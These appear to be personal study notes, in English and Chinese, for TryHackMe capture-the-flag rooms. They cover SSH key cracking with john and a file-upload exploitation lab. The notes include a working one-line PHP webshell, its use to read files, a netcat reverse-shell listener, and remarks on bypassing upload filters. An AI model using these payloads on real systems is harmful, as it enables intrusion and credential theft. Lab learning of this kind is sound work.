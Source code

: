 		--> python3 /opt/ssh2john.py  id_rsa > id_rsa_hash.txt
		--> john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash.txt
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	Task : 
		--> 

## Upload Vulnerabilities	: 
	--> https://tryhackme.com/r/room/uploadvulns
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> hosts file : https://www.ionos.co.uk/digitalguide/server/configuration/hosts-file/
		--> 允許您在本地將 IP 位址映射到域名，而無需依賴 DNS 伺服器為您解析 IP 位址
	
		--> Linux和 MacOS : /etc/hosts
		--> Windows  : C:\Windows\System32\drivers\etc\hosts
		
		--> add : 10.10.234.25    overwrite.uploadvulns.thm shell.uploadvulns.thm java.uploadvulns.thm annex.uploadvulns.thm magic.uploadvulns.thm jewel.uploadvulns.thm demo.uploadvulns.thm
		--> remenber 刪除 !!!!!!!!
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	--> 1. Enumeration : 
		--> gobuster
		--> Burpsuite攔截上傳請
		--> Wappalyser等瀏覽器擴充功能
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	--> 覆蓋現有文件 : Overwriting existing files on a server 
		--> test can I Overwriting files
			--> download a file change the same name and upload it 
	
	--> Remote Code Execution
		--> Uploading and Executing Shells on a server
		--> webshel​​l 和反向/綁定 shell
		

		--> gobuster dir -u http://shell.uploadvulns.thm -w common.txt
			--> /resources  //unloads
			
			--> unload webshell:   webshell.php
				<?php
				    echo system($_GET["cmd"]);
				?>
			--> http://shell.uploadvulns.thm/resources/webshell.php?cmd=ls
				--> ?cmd=cd /var/www;ls -a;
				--> ?cmd=cd /var/www;cat flag.txt
				
		--> Reverse Shells:
			--> nc -lvnp 1234
			--> upload shell.php //  Pentest Monkey 反向 shell
				--> change 第 49 行 // ip --> local ip (10.11.92.230)
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> Filtering : 
		--> Extension Validation (擴充驗證):
			--> 文件擴展名
			
		--> File Type Filtering (文件類型過濾):
			--> MIME驗證 : 
				--> Content-Type : image/jpeg ( <type>/<subtype>)
				--> 基於檔案的副檔名，因此很容易繞過
			--> Magic Number validation:
				--> 最開頭的一串字節，用來識別內容
				--> https://en.wikipedia.org/wiki/List_of_file_signatures
				